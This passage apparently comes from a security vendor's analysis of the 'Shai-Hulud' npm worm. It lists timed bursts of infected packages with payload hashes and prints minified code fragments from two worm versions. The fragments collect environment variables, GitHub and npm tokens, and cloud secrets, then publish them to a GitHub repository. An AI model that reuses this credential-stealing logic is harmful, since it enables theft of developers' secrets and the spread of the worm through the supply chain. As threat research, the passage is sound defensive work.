 Impact: largest single burst, nearly 100 packages

**02:32** additional burst (~20 packages and/or versions)

Hash: `b74caeaa75e077c99f7d44f46daaf9796a3be43ecf24f2a1fd381844669da777`

**03:18** previous day’s hash returns

Hash: `46faab8ab153fae6e80e7cca38eab363075bb524edd79e42269217a083628f09`

Impact: ~20 packages and/or versions at 03:18, ~10 around 05:32, ~60 between 06:17 and 07:11 (many under `@operato`)

**07:41** earlier hash from the 15th reappears

Hash: `dc67467a39b70d1cd4c1f7f7a459b35058163592f4a9e8fb4dffcbba98ef210c`

Impact: additional handful of packages and/or versions

**10:57–11:09** more `@operato` packages and/or versions

Hash: `46faab8ab153fae6e80e7cca38eab363075bb524edd79e42269217a083628f09`

## Version Control [\#](https://socket.dev/blog/ongoing-supply-chain-attack-targets-crowdstrike-npm-packages\#Version-Control)

The threat actor created 7 different versions of the worm, which we know because the worm has no ability to edit itself. There were multiple different seeder events as well as bursts of previous worms, as evidenced in the Timeline section.

### V1 v. V2

Difference between [version 1](https://socket.dev/npm/package/rxnt-authentication/files/0.0.3/bundle.js), `de0e25a3e6c1e1e5998b306b7141b3dc4c0088da9d7bb47c1c00c91e6e4f85d6`

```chakra-code css-n8z13r
ne.scanFilesystem()),{available:t,installed:ne.isInstalled(),version:r,platform:ne.getSupportedPlatform(),results:n}})()]);se=ce.npmUsername,ae=ce.npmTokenValid;const ue={application:t.getConfig(),system:{platform:r.platform,architecture:r.architecture,platformDetailed:r.platformRaw,architectureDetailed:r.archRaw},runtime:n,environment:process.env,modules:{github:{authenticated:F.isAuthenticated(),token:F.getCurrentToken()},aws:{valid:await te.getCallerIdentity(),secrets:await te.getAllSecretValues()},azure:{valid:await re.getProjectInfo(),secrets:await re.getAllSecretValues()},truffleHog:le,npm:{token:oe,authenticated:ae,username:se}}};if(F.isAuthenticated()&&!F.repoExists("Shai-Hulud")&&await F.makeRepo("Shai-Hulud",(0,_lib_utils__WEBPACK_IMPORTED_MODULE_1__.formatOutput)(ue)),F.isAuthenticated()&&((0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isLinux)()||(0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isMac)()))
```

and [version](https://socket.dev/npm/package/jumpgate/files/0.0.2/bundle.js) [2](https://socket.dev/npm/package/jumpgate/files/0.0.2/bundle.js),

`81d2a004a1bca6ef87a1caf7d0e0b355ad1764238e40ff6d1b1cb77ad4f595c3`:

```chakra-code css-n8z13r
ne.scanFilesystem()),{available:t,installed:ne.isInstalled(),version:r,platform:ne.getSupportedPlatform(),results:n}})()]);console.log("Configuring."),se=ce.npmUsername,ae=ce.npmTokenValid;let ue=[];await te.isValid()&&(ue=await te.getAllSecretValues());let de=[];await re.isValid()&&(de=await re.getAllSecretValues());const pe={application:t.getConfig(),system:{platform:r.platform,architecture:r.architecture,platformDetailed:r.platformRaw,architectureDetailed:r.archRaw},runtime:n,environment:process.env,modules:{github:{authenticated:F.isAuthenticated(),token:F.getCurrentToken()},aws:{secrets:ue},gcp:{secrets:de},truffleHog:le,npm:{token:oe,authenticated:ae,username:se}}};if(F.isAuthenticated()&&!F.repoExists("Shai-Hulud")&&await F.makeRepo("Shai-Hulud",(0,_lib_utils__WEBPACK_IMPORTED_MODULE_1__.formatOutput)(pe)),F.isAuthenticated()&&((0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isLinux)()||(0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isMac)()))
```
